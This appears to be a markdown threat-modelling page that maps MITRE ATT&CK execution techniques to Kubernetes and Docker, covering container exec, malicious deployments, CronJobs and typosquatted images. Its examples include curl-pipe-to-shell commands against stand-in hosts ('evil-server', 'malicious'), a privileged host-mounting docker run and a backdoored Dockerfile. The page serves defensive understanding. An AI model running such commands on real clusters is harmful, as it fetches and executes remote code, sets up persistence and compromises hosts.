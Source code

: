 # Execution

### **Execution Techniques in Containerized Environments**

In Kubernetes and other containerized ecosystems, adversaries use Execution techniques to run code within the environment. This includes using Kubernetes-native mechanisms like Jobs or Pods, injecting malicious container images, or abusing container admin commands through exposed APIs or misconfigured RBAC. Execution may happen post-initial access or as a pivot point within the cluster.

#### Container Administration Command (T1609)

**Description**: Use of legitimate administrative tooling (e.g., Docker CLI, `kubectl`) to execute commands inside containers or manage resources.

**Container Example**:

*   After gaining access to a compromised container or host, the attacker uses:

    ```bash
    docker exec -it <container-id> /bin/bash
    kubectl exec -it <pod-name> -- /bin/sh
    ```
* Run malicious binaries directly inside a running pod or container.
* Abuse kubelet or CRI endpoints (`/exec`, `/run`) to spawn processes inside containers without `kubectl`.

**Attack Path**:

* Attacker pivots from API access to container shell access, downloads payloads or sets up persistence.

#### Deploy Container (T1610)

**Description**: Launch a new container as a method to execute code with attacker-specified parameters, volumes, or environment variables.

**Container Example**:

*   Use `kubectl run` or `kubectl create deployment` to spin up a container running malware:

    ```bash
    kubectl run evil-pod --image=alpine --command -- /bin/sh -c "curl http://malicious/payload.sh | sh"
    ```
*   On Docker:

    ```bash
    docker run -v /:/mnt --privileged attacker/image
    ```
* Abuse Helm charts or ArgoCD pipelines to deploy attack infrastructure.

**Use Case**:

* Deploy crypto-mining containers or establish C2 within the cluster using low-detection images.

***

#### Scheduled Task/Job → **Container Orchestration Job** (T1053.007)

**Description**: Use Kubernetes' native scheduled jobs (CronJobs) to trigger recurring or delayed execution.

**Container Example**:

*   Create a CronJob to pull C2 commands or run persistence scripts:

    ```yaml
    apiVersion: batch/v1beta1
    kind: CronJob
    metadata:
      name: recon-job
    spec:
      schedule: "*/5 * * * *"
      jobTemplate:
        spec:
          template:
            spec:
              containers:
              - name: recon
                image: busybox
                command: ["/bin/sh", "-c", "curl http://evil-server/recon.sh | sh"]
              restartPolicy: OnFailure
    ```
* Abuse scheduled tasks to reinstate backdoors or start reverse shells.

**Persistence Layer**:

* These jobs survive pod reboots and cluster changes if not properly monitored.

#### User Execution → **Malicious Image** (T1204.003)

**Description**: Trick users or automation systems into running a malicious container image.

**Container Example**:

* Push a backdoored image to a public or private registry named similarly to a legit one:
  * Legit: `nginx:latest`
  * Evil: `nqinx:latest` (typosquatting)
*   Modify a popular base image (`python`, `node`) with payloads in the `ENTRYPOINT`:

    ```dockerfile
    dockerfileCopyEditFROM python:3.10
    RUN curl http://evil/download.sh | sh
    CMD ["python3"]
    ```
* If build pipelines aren’t validating image sources (e.g., GitHub Actions pulling untrusted images), malicious containers can be executed with CI/CD trust.
